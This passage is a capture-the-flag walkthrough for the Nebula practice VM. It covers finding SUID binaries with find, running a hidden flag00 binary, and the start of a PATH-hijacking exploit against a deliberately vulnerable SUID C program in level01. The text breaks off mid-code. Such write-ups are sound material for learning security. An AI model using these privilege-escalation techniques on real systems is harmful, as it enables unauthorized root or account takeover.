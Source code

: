 {{< codecaption lang="sh" title="Finding SUID flag00 files" >}}
level00@nebula:~$ find / -user flag00 -perm -4000 -exec ls -l {} \; 2>/dev/null
-rwsr-x--- 1 flag00 level00 7358 2011-11-20 21:22 /bin/.../flag00
-rwsr-x--- 1 flag00 level00 7358 2011-11-20 21:22 /rofs/bin/.../flag00
level00@nebula:~$
{{< /codecaption>}}


{{< codecaption lang="sh" title="Getting the flag" >}}
level00@nebula:~$ id
uid=1001(level00) gid=1001(level00) groups=1001(level00)
level00@nebula:~$ /bin/.../flag00 
Congrats, now run getflag to get your flag!
flag00@nebula:~$ getflag 
You have successfully executed getflag on a target account
flag00@nebula:~$ 
{{< /codecaption >}}

### Level01

Description:

> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

{{< codecaption lang="c" title="Source Code" >}}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
{{< /codecaption >}}

Here the code uses `echo` binary to display a string. We can exploit that by modifying $PATH variable and placing our own version of `echo` in the PATH.
We can use the provided source code to get a shell by modifying the last line to execute `bash`:

{{< codecaption lang="sh" title="Exploiting $PATH weakness" >}}
level01@nebula:/home/flag01$ export PATH=/tmp:$PATH
level01@nebula:/home/flag01$ cat /tmp/setuid.c 
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

